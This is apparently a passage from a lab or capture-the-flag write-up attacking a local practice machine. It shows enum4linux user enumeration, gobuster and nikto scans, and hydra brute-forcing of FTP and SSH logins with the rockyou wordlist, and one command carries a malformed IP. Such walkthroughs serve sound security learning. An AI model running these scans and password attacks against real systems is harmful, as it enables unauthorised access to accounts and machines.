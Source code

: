 ```nmap
|   date: 2021-07-14T02:56:11
|_  start_date: N/A

```

Seeing that it has ftp, samba and a web server I will start doing some recon on those 

I started with samba, using enum4linux I looked for shares and usernames on the computer

# enum4linux command

```bash
enum4linux -a 10.0.2.2.254 | tee enum4linux.log
```
I was unable to access any shares on the target machine but I did find two usernames

# enum4linux results

```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\nightfall (Local User)
S-1-22-1-1001 Unix User\matt (Local User)
```

I also ran gobuster in the background to see if there where any hidden directories that I could find
but all it was able to find was index.html

# gobuster command

```bash
gobuster dir -u http://10.0.2.254 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,js -o root.gobuster.log
```

I also ran nikto against the target machine but didn't get anything of value

# nikto command

```bash
nikto -h http://10.0.2.254
```

Having nothing else to go on except two usernames I tried to brute force ftp and ssh login credentials using hydra

I put the two usernames in a file named users and used that for the username list in hydra

# hydra commands

```bash
hydra -L users -P /usr/share/wordlists/rockyou.txt ftp://10.0.2.254

hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.254
```
